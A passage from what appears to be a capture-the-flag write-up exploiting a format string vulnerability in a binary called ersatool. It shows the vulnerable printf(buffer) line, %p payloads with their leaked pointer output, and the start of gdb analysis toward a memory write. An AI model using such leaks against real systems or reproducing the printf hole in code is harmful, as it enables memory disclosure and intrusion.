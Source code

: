 `NX` means I can’t write to the stack and then execute from it, and `PIE` means that the addresses of not just the libraries but also the main program will be moving in memory, and that I’ll need a address leak in order to meaningfully interact with memory.

#### Identify Format String Vuln

The first thing that jumped out at me looking at the code was this line in `printCN`:

```

printf(buffer); //checking buffer content

```

That’s calling `printf` on a buffer without a format string. If that buffer is user controlled, then it can be used to leak and write memory.

I’ll use `%p` to print 64-bit pointers, with `016` to zero-pad the results and a `.` to create spacing:

```

oxdf@parrot$ ./ersatool print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p
0x0056378a09d15f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007ffcfbb9fed0.           (nil).0x007ffcfbba21b2.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
oxdf@parrot$ ./ersatool print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p
0x005577868eb15f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007ffd447d6170.           (nil).0x007ffd447d81b2.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
oxdf@parrot$ ./ersatool print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p
0x00563ff8e7a15f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007fffbd26ca20.           (nil).0x007fffbd26e1b2.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!

```

There’s a few things that jump out here:
- By running it a couple times, I can tell which memory addresses are impacted by ASLR/PIE and which are not. For example, in the first words, the low three characters (nibbles) and high three nibbles are staying constant, but the rest is changing. The fifth word is keeping the high five and lowest nibbles constant, and changing the rest. If I had to guess, the fifth is a stack address, and the first is some kind of global.
- The eighth word contains my input, 0x25 (`%`), 0x30 (`0`), 0x31 (`1`), 0x36 (`6`), 0x70 (`p`), 0x2e (`.`), etc. This makes sense, as the format string is on the stack as well.

#### Identify Pointers

If I can identify a constant distance in memory between one of these pointers and something I want to write to, I can use this leak to calculate that address, and then I’ll have a file write.

I’ll open `gdb` with `gdb ersatool`, and look at the `printCN` function with `disassemble printCN`. In the source, around the print, it does a bunch of `strncpy`, `strncat`, `strlen` calls just before the `printf`, and then a call to `filePrint`:

```

 47         strncpy(fn, OUTPUT_DIR,sizeof(fn));
 48         strncat(fn, "/",sizeof(fn)-strlen(fn));
 49         strncat(fn, strtok(basename(buffer),"\n"),sizeof(fn)-strlen(fn));
 50         strncat(fn, EXT, sizeof(fn)-strlen(fn));
 51         printf(buffer); //checking buffer content
 52         filePrint(fn);

```
